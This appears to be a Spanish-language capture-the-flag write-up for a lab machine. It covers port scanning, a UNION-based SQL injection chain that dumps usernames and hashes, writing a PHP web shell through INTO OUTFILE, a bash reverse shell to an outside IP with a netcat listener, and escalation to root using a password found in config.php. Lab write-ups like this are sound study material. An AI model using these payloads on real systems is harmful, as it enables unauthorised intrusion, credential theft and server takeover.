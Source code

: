 ## Summary

- IP -> 10.10.11.116
- Ports -> TCP (22, 80, 8080, 4566), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
    - 80 -> Apache httpd 2.4.48
    - 8080 -> http nginx / 502 Bad Gateway
    - 4566 -> http nginx / Forbidden

Launchpad -> Focal

## Recon

❯ **ping -c 1 10.10.11.116** 

❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG allPorts**
❯ **nmap -sCV -p80 10.10.11.116 -oN targeted**

❯ **whatweb ❮http://10.10.11.116❯**
❯ **whatweb ❮http://10.10.11.116:8080❯**

Usaremos BurpSuite para interceptar la maquina en la parte del campo de la pagina web.

- Le damos en Send y despues Forward, como miramos que no sale nada lo hacemos en el **proxy** 
- Modificamos al lado de la palabra Brazil en el **Proxy** y le damos Forward
- Intercept off 
- Miramos la respuesta en la web 
- Ahora si podemos seguir modificando en el repeater en la parte de Brazil y le damos Send y Forward y todo lo podremos ver en la web.
- Si no sale recargamos la pagina y deberia de salir el resultado

Inyecciones SQLI
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
❯ **’or 1=1-- -    o    'or 1=1#** 
❯ **'order by 10-- -** 
❯ **'union select 1,2,3-- -** 
Para listar las bases de datos existentes
❯ **'union select 1,2,schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
Encontramos las DBS llamadas 'mysql' y 'registration'
Para enumerar las tablas 
❯ **'union select 1,2,table_name from information_schema.tables -- -** Lista las tablas de todas las bases de datos existentes
❯ **'union select 1,2,table_name from information_schema.tables WHERE table_schema='*DBS*'-- -** Lista las tablas de una base de datos especifica
Encontramos que la tabla tambien de llama 'registration'
Para enumerar las columnas 
❯ **'union select 1,2,column_name from information_schema.columns WHERE table_schema='*DBS*' and table_name='*TABLENAME*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica
Nos muestra ahora 4 columnas pero hay dos importantes 'username' y 'userhash'
Para mostrar la data con concatenaciones
❯ **'union select 1,2,group_concat(*username*, ':' ,*password*) from *DB.TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos (**: = 0x3a** representacion en hexadecimal) Hacemos esto si la base de datos actual no es la que contiene los datos que queremos 

Ahora nos disponemos a cargar un archivo y ver si lo podemos observar en la web, esto en una ruta tipica de html que es:
❯ **/var/www/html/file.php** 

Primero haremos la prueba colocando lo que sea en un archivo .php
❯ **'union select "<? system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/file.php"-- -** Podemos crear un archivo llamado 'file.php' en la ruta html que contenga un cmd que nos interpretara comandos. Primero podemos hacer una prueba, colocando lo que sea en donde esta la parte de System.
	nota: Despues del primer ? va php
	- Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=whoami**
		- 1.1.1.1 -> IP de la victima
		- whoami -> Comando a usar, estos pueden ir variando
		Pero podemos hacer un archivo de PHP Reverse ...

Ahora que hemos agregado un archivo en la ruta del HTML. Podemos probar si tenemos ejecucion remota de comandos. 

Despues de verificar que tenemos ejecucion remota de comandos, hacemos lo siguiente. 

## User

Comando de ReverShell en PHP

❯ **bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'** -> Comando que debemos de Encodear en forma de URL y esto lo podemos colocar en BurpSuite, para despues hacerle Encoder y poderlo poner en la URL 

Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=** Aqui

Despues nos colocamos en escucha para al momento de darle Enter a la URL, podamos recibir la Revershell
❯ **nc -nlvp 443** Nos ponemos en escucha por el puerto 443 para esperar la Revershell

Una vez adentro haciendo un ls -l podemos ver un file que se llama config.php en el cual cuando lo miremos con cat encontraremos un user y passwd.

Si nos regresamos al home del usuario podremos encontrar la flag user.txt

## Root
Despues con el siguiente comando y la passwd que habiamos encontrado, podremos convertirnos en Root
❯ **su root** Para convertirnos en root y debemos de proporcionar una passwd